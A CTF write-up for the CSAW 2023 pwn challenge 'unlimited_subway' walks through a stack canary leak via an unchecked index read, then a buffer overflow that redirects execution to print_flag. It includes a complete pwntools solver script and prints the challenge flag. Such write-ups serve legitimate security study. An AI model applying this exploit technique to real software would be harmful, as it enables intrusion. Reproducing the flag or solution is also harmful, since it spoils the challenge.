


# unlimited_subway

- source code: [CSAW-CTF-2023-Quals/pwn/unlimited_subway](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/pwn/unlimited_subway)
- binary: [CSAW-CTF-2023-Quals/pwn/unlimited_subway/share/unlimited_subway](https://github.com/osirislab/CSAW-CTF-2023-Quals/blob/main/pwn/unlimited_subway/share/unlimited_subway)

## Setup

```bash
docker build -t csaw23/unlimited_subway .
docker run --rm -p 7900:7900 -it csaw23/unlimited_subway
```

## Flag

csawctf{my_n4m3_15_079_4nd_1m_601n6_70_h0p_7h3_7urn571l3}

## Research

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# md5sum unlimited_subway
2f2e92a8cbd7234dafe6f25afa32abd2  unlimited_subway

root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# file unlimited_subway
unlimited_subway: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a91c8ae32dffbdc3a706e70158ae362900e2b4de, for GNU/Linux 3.2.0, with debug_info, not stripped

root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# checksec unlimited_subway
[*] '/root/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share/unlimited_subway'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# readelf -s unlimited_subway
(snip)
Symbol table '.symtab' contains 52 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
(snip)
    49: 08049304    19 FUNC    GLOBAL DEFAULT   13 print_flag
(snip)
```

There is `print_flag` symbol so check this.

`print_flag` decompiled with Ghidra:

```c
void print_flag(void)
{
  system("cat ./flag");
  return;
}
```

This function print flag.


 

`print_flag` is not called anywhare so I think that the goal of this challenge is what call `print_flag` function by controlling EIP.

I try to understand the functionality of this binary by executing.

```
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# ./unlimited_subway
=====================================
=                                   =
=       Subway Account System       =
=                                   =
=====================================
[F]ill account info
[V]iew account info
[E]xit
> 
```

There are three functions, [F]ill (write), [V]iew (read) and [E]xit.

```
> F
Data : AAAA
```

input AAAA in Fill,

```
> V
Index : 0
Index 0 : 41
(snip)
> V
Index : 3
Index 3 : 41
(snip)
> V
Index : 4
Index 4 : 0a
(snip)
```

then I can read `AAAA\n` (= 0x41 * 4 + 0x0a) which I input in Fill.

```
> E
Name Size : 10
Name : abcde
```

In Exit, input `Name Size` and `Name` for that size.

```
> E
Name Size : 100
Name : AAAAAAAAAAAAA(snip)
*** stack smashing detected ***: terminated
zsh: IOT instruction  ./unlimited_subway
```

Inputing 100 bytes, `stack smashing detected` error occured.
I think to need Stack Canary Bypass.
It would be useful if I can leak canary [1] in Fill.

I guess Stack Overflow occures in Exit because I can control input size.

<details><summary>main decompiled with Ghidra</summary>

```c
undefined4 main(undefined4 param_1,EVP_PKEY_CTX *param_2)

{
  int in_GS_OFFSET;
  undefined4 local_94;
  size_t local_90;
  undefined2 local_8a;
  undefined4 local_88;
  undefined4 local_84;
  undefined4 local_80;
  undefined4 local_7c;
  undefined4 local_78;
  undefined4 local_74;
  undefined4 local_70;
  undefined4 local_6c;
  undefined4 local_68;
  undefined4 local_64;
  undefined4 local_60;
  undefined4 local_5c;
  undefined4 local_58;
  undefined4 local_54;
  undefined4 local_50;
  undefined4 local_4c;
  undefined4 local_48;
  undefined4 local_44;
  undefined4 local_40;
  undefined4 local_3c;
  undefined4 local_38;
  undefined4 local_34;
  undefined4 local_30;
  undefined4 local_2c;
  undefined4 local_28;
  undefined4 local_24;
  undefined4 local_20;
  undefined4 local_1c;
  undefined4 local_18;
  undefined4 local_14;
  undefined4 local_10;
  undefined4 local_c;
  int local_8;
  
  local_8 = *(int *)(in_GS_OFFSET + 0x14);
  local_88 = 0;
  local_84 = 0;
  local_80 = 0;
  local_7c = 0;
  local_78 = 0;
  local_74 = 0;
  local_70 = 0;
  local_6c = 0;
  local_68 = 0;
  local_64 = 0;
  local_60 = 0;
  local_5c = 0;
  local_58 = 0;
  local_54 = 0;
  local_50 = 0;
  local_4c = 0;
  local_48 = 0;
  local_44 = 0;
  local_40 = 0;
  local_3c = 0;
  local_38 = 0;
  local_34 = 0;
  local_30 = 0;
  local_2c = 0;
  local_28 = 0;
  local_24 = 0;
  local_20 = 0;
  local_1c = 0;
  local_18 = 0;
  local_14 = 0;
  local_10 = 0;
  local_c = 0;
  local_8a = 0;
  local_94 = 0;
  local_90 = 0;
  init(param_2);
  while( true ) {
    while( true ) {
      while( true ) {
        print_menu();
        read(0,&local_8a,2);
        if ((char)local_8a != 'F') break;
        printf("Data : ");
        read(0,&local_88,0x40);
      }
      if ((char)local_8a != 'V') break;
      printf("Index : ");
      __isoc99_scanf(&DAT_0804a0e9,&local_94);
      view_account(&local_88,local_94);
    }
    if ((char)local_8a == 'E') break;
    puts("Invalid choice");
  }
  printf("Name Size : ");
  __isoc99_scanf(&DAT_0804a0e9,&local_90);
  printf("Name : ");
  read(0,&local_48,local_90);
  if (local_8 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

</details>

<details><summary>view_account decompiled with Ghidra</summary>

```c
void view_account(int param_1,int param_2)

{
  printf("Index %d : %02x\n",param_2,(uint)*(byte *)(param_1 + param_2));
  return;
}
```

</details>

Three functions summary:
- Fill: Input arbitrary value in `Data`. Input size is 0x40
- View: Input `Index`. It's readable arbitrary stack value
- Exit: Input `Name Size` and `Name`. `Name Size` are no limits so it's writable anywhere on the stack by specifing input size

Exploit Step:
1. View: Leaking canary
2. Exit: Occuring Stack Overflow, overwrite the following:
   - canary
   - return address to `print_flag` address

I try to Find the offset from the `Data` input to the canary.

`gdb --batch --ex "file unlimited_subway" --ex "disas main"`

```gdb
   0x08049518 <+513>:   mov    edx,DWORD PTR [ebp-0x4]
   0x0804951b <+516>:   sub    edx,DWORD PTR gs:0x14
   0x08049522 <+523>:   je     0x804953d <main+550>
```

In this, canary is compared.

Execute gdb, set breakpoint main+523 and run, then input the following:

```text
F
AAAA
E
1
a
```

then, `find AAAA` and Examine `$ebp-0x4`:

```gdb
gdb-peda$ find AAAA
Searching for 'AAAA' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0xffffcd84 ("AAAA\n")

gdb-peda$ x $ebp-0x4
0xffffce04:     0x9aa01000
```

Calculate offset, 0xffffce04 - 0xffffcd84 = 128 (0x80 in hexadecimal).

Thus, in View I can leak canary with index 128, 129, 130 and 131.

```text
> V
Index : 128
Index 128 : 00
(snip)
> V
Index : 129
Index 129 : 04
(snip)
> V
Index : 130
Index 130 : 0c
(snip)
> V
Index : 131
Index 131 : 3d
```

e.g. the above, canary is 0x3d0c0400.

All that is left is to find the offset of the stack overflow in Exit.

```console
> E
Name Size : 65
Name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: terminated
zsh: IOT instruction  ./unlimited_subway
```

When Input size is 64, the error doesn't occure, but 65, occured.
So the offset to canary is 64 (0x40).

Then, I must also consider the offset from canary to the return address (0x4).

I implemented full exploit code.

<details><summary>solver-unlimited_subway.py</summary>

```python
from pwn import *

elf = ELF("./unlimited_subway")
flag_address = elf.symbols["print_flag"]

HOST = "localhost"
PORT = 7900


def gen_tube():
    if args.REMOTE:
        io = remote(HOST, PORT)

    elif args.GDB:
        gdbscript = """
            b *main+523
            c
        """
        io = gdb.debug([elf.path], gdbscript=gdbscript)

    else:
        io = elf.process()

    return io


def leak_canary(io):
    canary = 0

    for i in range(4):
        io.sendlineafter(b"> ", b"V")
        io.sendlineafter(b"Index : ", str(0x80 + i).encode())

        io.recvuntil(f"Index {0x80+i} : ".encode())
        value = io.recv(2)
        canary += int(value, base=16) << (i * 8)

    log.info(f"canary: {hex(canary)}")

    return canary


def overwrite_ret(io, canary):
    payload = b""
    payload += b"A" * 0x40
    payload += p32(canary)
    payload += b"B" * 0x4
    payload += p32(flag_address)

    io.sendlineafter(b"> ", b"E")
    io.sendlineafter(b"Name Size : ", f"{len(payload)}".encode())
    io.sendlineafter(b"Name : ", payload)


if __name__ == "__main__":
    io = gen_tube()
    canary = leak_canary(io)
    overwrite_ret(io, canary)

    io.interactive("")
```

</details>

Executed this script, it shows flag.

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# python3 solver-unlimited_subway.py REMOTE
[*] '/root/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share/unlimited_subway'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 7900: Done
[*] canary: 0x74d5a000
[*] Switching to interactive mode
csawctf{my_n4m3_15_079_4nd_1m_601n6_70_h0p_7h3_7urn571l3}
[*] Got EOF while reading in interactive

[*] Closed connection to localhost port 7900
```

## References

- [1] [Stack Canaries - CTF 101](https://ctf101.org/binary-exploitation/stack-canaries/#stack-canary-leaking)
